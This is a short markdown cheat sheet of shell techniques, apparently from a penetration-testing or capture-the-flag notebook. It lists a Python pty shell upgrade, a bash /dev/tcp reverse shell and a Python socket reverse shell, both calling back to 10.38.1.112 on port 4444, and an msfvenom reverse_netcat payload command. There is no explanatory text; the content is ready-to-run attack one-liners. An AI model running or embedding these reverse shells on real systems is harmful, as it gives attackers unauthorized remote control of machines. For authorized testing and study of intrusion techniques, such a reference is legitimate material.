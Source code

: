 # Shells

## Upgrade shell

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Reverse Shells

### Bash

```console
bash -i >& /dev/tcp/10.38.1.112/4444 0>&1
```

### Python

´´´console
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.38.1.112",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## msfvenom

```console
$ msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R
```